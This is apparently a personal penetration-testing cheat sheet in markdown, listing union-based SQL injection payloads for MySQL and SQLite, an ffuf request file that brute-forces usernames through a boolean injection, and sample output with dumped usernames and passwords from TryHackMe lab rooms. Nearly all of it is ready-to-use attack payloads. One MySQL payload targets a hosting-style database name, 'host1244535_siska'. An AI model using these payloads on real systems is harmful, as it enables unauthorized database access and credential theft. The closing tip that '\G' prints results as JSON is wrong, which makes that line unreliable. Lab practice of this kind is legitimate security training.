

### UNION BASED SQLI
info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```

ref:-
https://www.hackingloops.com/sql-injection-union-based-exploitation-part-2-the-injection/
https://book.hacktricks.xyz/pentesting-web/sql-injection


### Username Brutforce with FFUF

simple request


save  req to req.txt
```
POST / HTTP/1.1
Host: 10.10.128.5
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.128.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.128.5/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=FUZZ'AND+1=1+--+-&password=a
```

run below FFUF command
```
ffuf -request req.txt -u http://10.10.128.5/ -w ~/Tools/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
```
![[Pasted image 20230903233728.png]]
NOTE:- we might need to pass -u with url to use http or https


python script :-
https://github.com/BhattJayD/LessonLearned-BruteForce-Script
Tested on https://tryhackme.com/room/lessonlearned

### SQLITE Sql injection

Useful link to follow:-
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://tryhackme.com/room/unstabletwin#

##### 1st step SIMPLE ENUM

```sqlite
username=admin&password=aa'union select 1,sqlite_version() -- -
```

```json
[
  [
    1, 
    "3.26.0"
  ]
]

```

##### 2nd step  TABLE NAME EXTRACTION

```
username=admin&password=aa'union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%' -- -
```

```json
[
  [
    1, 
    "users,notes"
  ]
]

```

##### 3rd step COLUMN NAME EXTRACTION

```sqlite
username=admin&password=aa'union select 1,sql from sqlite_master where type!='meta' and sql not null and name not like 'sqlite_%' and name='notes' limit 3 -- -
```

```sql
[
	[
		1,
		"CREATE TABLE notes ( id INTEGER UNIQUE, user_id INTEGER, note_sql INTEGER, notes TEXT,PRIMARY KEY( id ))"
	]
]
```


##### 4rd step DATA EXTRACTION FROM COLUMN

```sqlite
username=admin&password=aa'union select 1,username from users limit 10 -- -
```

```json
[
  [
    1, 
    "julias"
  ], 
  [
    1, 
    "linda"
  ], 
  [
    1, 
    "marnie"
  ], 
  [
    1, 
    "mary_ann"
  ], 
  [
    1, 
    "vincent"
  ]
]
```

```sqlite
username=admin&password=aa'union select (group_concat(password)),(group_concat(username)) from users limit 1 -- -
```

```json
[
  [
    "continue...,Red,Orange,Green,Yellow ", 
    "mary_ann,julias,vincent,linda,marnie"
  ]
]
```


### Use full sql commands

##### Print in JSON

```sql
select * from table \G;
```